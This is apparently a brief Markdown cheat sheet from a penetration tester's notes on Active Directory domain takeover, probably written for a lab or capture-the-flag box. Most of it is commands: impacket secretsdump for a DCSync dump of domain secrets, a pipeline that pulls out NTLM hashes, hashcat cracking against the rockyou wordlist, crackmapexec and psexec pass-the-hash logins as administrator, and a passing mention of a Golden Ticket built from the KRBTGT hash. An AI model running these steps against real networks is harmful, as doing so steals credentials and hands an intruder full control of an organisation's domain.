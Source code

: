 ### kali
- Performing SecretsDump to perform a DCSync once you have hold of user associated with correct group
- Also added `domainobjectACL` to correct identity [how-to](./writeDACL.md)
```
./secretsdump.py null.local/nullbrain@10.10.10.10 > ./hases.out
```
^^ Above will be able to dump all of the secrets into ./hases.out


extract hashes with `| grep ::: | awk -F: '{print $4}'`
```
# 1000 = NTLM
hascat --user -m 1000 hases /opt/wordlist/rockyou.txt -r rules/InsidePro-PasswordsPro.rule

crackmapexec smb 10.10.10.10 -u administrator -H <hash>
```


- PSEXEC with Administrator to gain access
- Using the KRBTGT Hash to perform the GoldenTicket attack from Linux
```
./psexec.py -hashes xxxxxxx:xxxxxxxx administrator@10.10.10.10
```